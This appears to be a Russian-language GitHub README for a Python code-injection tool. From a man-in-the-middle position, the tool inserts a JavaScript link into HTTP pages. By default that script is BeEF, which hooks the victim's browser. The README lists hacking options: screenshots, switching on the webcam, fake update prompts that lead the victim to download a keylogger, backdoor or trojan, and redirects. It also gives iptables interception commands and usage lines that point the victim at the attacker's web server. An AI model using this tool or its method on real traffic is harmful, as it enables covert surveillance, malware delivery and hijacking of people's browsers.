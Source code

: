 # Программа инъекции кода <img align="" src="https://github.com/Maxsmile123/Maxsmile123/blob/333a0368f66c4b37dfefea27ff1833aba50d7ad3/res/hacker.png" height="25px" width="25px">
**Примечание: работает только для http**

Пользователь должен быть "man in the middle". 
При заходе на любой сайт, перед закрывающим тегом `<\body>` вставляется ссылка на javascript файл, который в итоге выполнится после загрузки страницы.  
Например, файл [injecting.js](injecting.js) выводит на экран надпись.   
По умолчанию (если не указаны флаги) используется фреймворк beEF. Этот код захватывает браузер пользователя и предлагает множество опций для взлома:  
- Вывести любой текст.
- Сделать скриншот экрана.
- Включить вебкамеру.
- Вывести fake уведомление.
- Fake уведомление о новом обновлении, после которого жертва может скачать наш keylogger, backdoor, trojan и д.р.
- Вставка нашего JS кода.
- Ссылка, на которую в итоге попадёт жертва (redirect). И многое-многое другое.



## Взаимодействие
Если вы хотите, чтобы жертва скачала что-то с вашего компьютера, то стоит запустить свой веб-сервер:
```shell
service apache2 start
iptables --flsuh
iptables -I INPUT -j NFQUEUE --queue-num 0
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
При запуске программы указывается один аргумент:     
**-js** - Путь к js файлу, который будет исполняться. По умолчанию используется beEF.    

### Примеры использования:
Используем наш js файл:
```shell
python3 code_injector.py -js injecting.js
```
Запускаем без флагов — по умолчанию используется beEF:
```shell
python3 code_injector.py
Using beEF...
Input IP of your webserver: 10.20.14.213
```



